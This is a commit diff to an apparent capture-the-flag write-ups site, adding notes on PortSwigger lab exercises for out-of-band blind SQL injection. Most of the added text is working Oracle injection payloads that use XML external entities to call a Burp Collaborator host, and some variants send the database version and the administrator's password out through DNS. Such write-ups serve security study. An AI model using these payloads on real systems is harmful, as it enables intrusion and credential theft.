

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/sql-injections.md, in a window 1280 px wide and 900 px high, scrolled down 3749 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4208 px from its top, so only the background shows below that.

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
@@ -159,3 +159,25 @@ In results:
 - Sort by that and read PW
 
 ![blind-timing-data](images/blind-timing-data.png)
+
+## Blind SQL injection with out-of-band interaction
+
+solved using an example payload from the portswigger cheat sheet:
+
+The collaborator is required for this lab.
+
+```
+GET /filter?category=Corporate+gifts HTTP/2
+Host: 0af10097048bf8a8804249eb0030001b.web-security-academy.net
+Cookie: TrackingId=x'<@burp_urlencode> UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://fcvrlzgdef8raqxl9sb1z57cl3rufs3h.oastify.com/"> %remote;]>'),'/l') FROM dual--<@/burp_urlencode>; session=fYmRUjWseYGxLjuGbHjBA7OOs4mvB3y9
+```
+
+## Blind SQL injection with out-of-band data exfiltration
+
+```
+x'<@burp_urlencode> UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT version FROM v$instance)||'.li7xr5mjklexgw3rfyh75bdir9x0lrbf0.oastify.com/"> %remote;]>'),'/l') FROM dual--
+
+TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+version+FROM+v$instance)||'.li7xr5mjklexgw3rfyh75bdir9x0lrbf0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
+TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
+
+```
````
Also changed, not shown: docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md (added, +19 -0 lines), docs/writeups/2023/portswigger-bscp-labs/cross-site-scripting.md (added, +17 -0 lines).
